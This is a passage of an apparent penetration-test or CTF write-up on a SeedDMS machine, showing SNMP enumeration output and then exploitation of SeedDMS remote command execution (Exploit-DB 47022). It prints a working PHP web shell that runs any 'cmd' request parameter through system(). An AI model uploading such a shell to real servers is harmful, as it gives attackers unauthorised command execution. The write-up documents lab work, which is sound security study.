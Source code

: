 ```bash
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".28 = STRING: michelle             user_u               s0                   *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".29 = STRING: root                 unconfined_u         s0-s0:c0.c1023       *
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".30 = STRING: System uptime
NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring".31 = STRING:  11:51:29 up 1 day, 20:45,  0 users,  load average: 0.08, 0.02, 0.01
End of MIB
```

# Exploitation

## SeedDMS - Remote Command Execution

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47022)

Uploaded a PHP webshell named rs.php and extracted the **documentid** value:

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

![Pasted image 20210517192104.png](../../zzz_res/attachments/Pasted_image_20210517192104.png)

Executed arbitrary code using direct access to the uploaded file:

![Pasted image 20210517192318.png](../../zzz_res/attachments/Pasted_image_20210517192318.png)
